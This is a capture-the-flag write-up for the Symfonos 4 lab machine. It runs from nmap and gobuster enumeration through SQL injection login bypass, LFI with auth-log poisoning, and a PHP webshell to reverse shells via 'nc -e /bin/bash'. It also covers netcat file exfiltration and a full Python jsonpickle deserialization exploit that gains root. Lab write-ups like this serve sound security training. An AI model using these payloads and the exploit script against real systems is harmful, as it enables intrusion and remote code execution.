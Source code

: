 # SYMFONOS 4

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![840e1e97c9f94578c757d7fd3c689c58.png](./_resources/349aeda966314e6f8d09bcfcbd4a1774.png)
Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`
![76394ae6997be19f3c4bdee0cfaa2281.png](./_resources/c691da3575884fcda97e905576d39a7e.png)

`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`

![0975e9ea8b8186843034eaa7daa54ebf.png](./_resources/08373315ed444d79bf152bbab584aea8.png)

`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`
![c4583ba1c6c787bdd818294cb239fe8c.png](./_resources/9f42f9f33c034491b2b19c7fe9ddd362.png)

![1d8d6b711590211a52e3aa5a2e2ceb03.png](./_resources/24571ff2fe9540fb818164cacd9c1835.png)

### 1.3.2 Downloading and reading .log files
![a1c099d558fcf0a1d61e3f9a286db9df.png](./_resources/923829f107e945e6b7a41707a66f6ac7.png)
Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass
![f05f53f61c3c9f278839e192155f60d3.png](./_resources/e0c248c955274101b329a896edecc53c.png)

![dee386e1368f678594d530ea7b687f8f.png](./_resources/21ce6dcbe9d944b8b94b6071876fb837.png)

## 2.3 LFI (local file inclusion) - using bash to generate payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders

First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:

![1cd967f30e848870cd71ccee54ad1dd4.png](./_resources/785e5a8f11f04b97b2ab41efbbb11c09.png)

```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```

![32891abc8f6f2a29e90957c4a48df109.png](./_resources/011ff6b8d8414ce89ab3aefc33f7d4e3.png)

### 2.3.1 Reverse shell
https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
https://github.com/bayufedra/Tiny-PHP-Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```
![bac8f31f1dbeaf07360ad7e65eb809fd.png](./_resources/2a5ac06591814144bc918c386f6e46a0.png)

![551934b56670ffd80ea92ef3d7895822.png](./_resources/d9ca224d89814bf39e9e85fdba68f82f.png)
```
GET /sea.php?file=/../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```
![41c70d61d8a0b08a44cbe0cb4cd68fee.png](./_resources/fe456d74e92b491db68c287f7dbedab2.png)
Since we have nc or any other way on target, we can use it for get reverse shell:
![e905767d0ac3bad464d5a031d815d98e.png](./_resources/0e91b6820bd04a20900f2006aad65434.png)


# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

We can upload LinEnum on the target with python3 and the lib http.server:

![4d63d0022347ed21c3ba7df24c2522c0.png](./_resources/47d04bb3e5c543a4aae1de06412edae3.png)
![820b558de83960b7ef1042b7af6591e5.png](./_resources/ab77bd1365544d76b1c000435b81d303.png)
`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`

![ea043ac33ffccefe0be1ce5158627f79.png](./_resources/212f5442c5874501ada84e00a16a47f0.png)

## 3.1 Remote forwarding with ssh
https://www.ssh.com/academy/ssh/tunneling/example
We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`

![871d11e257ef55e125102ff953880218.png](./_resources/4bfaac7691be42f6a08e79d799f01959.png)

![df9bf8bf57207863f1663384960b0fec.png](./_resources/5a338a152d2b442590792a507f02c051.png)
We have a cookie with base64 encode.
Let's decode it:
![a2faa58b0d558074ef2d46ea76f628d9.png](./_resources/b8651e2ba33843d38c8ecee493831f13.png)

### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:
![34c46c4628137be5bc34b7590a2d1e39.png](./_resources/454c47d973674ee5a1c0fd8caca828c6.png)
This articles explain about exploit it:
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
https://www.synopsys.com/blogs/software-security/python-pickling/
https://blog.nelhage.com/2011/03/exploiting-pickle/
https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:
![ce0615a224028acc4f853e5964d9aec9.png](./_resources/48add1eec8404568aa483028b4b3ffb2.png)
Needs encode to base64:

![1581ff27f0379884666328b034bca78e.png](./_resources/0fe79ecb71274e4b8eaa09a7e72de099.png)]

And rooted:

![9ff866356191b6a5f8b5598ea0661897.png](./_resources/df8406e80fa1459399853773280f05ac.png)

### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:

![7f985f49d2994f98f434e810c1788f65.png](./_resources/24c617101aa14ecfbedb88e5539534f3.png)
 
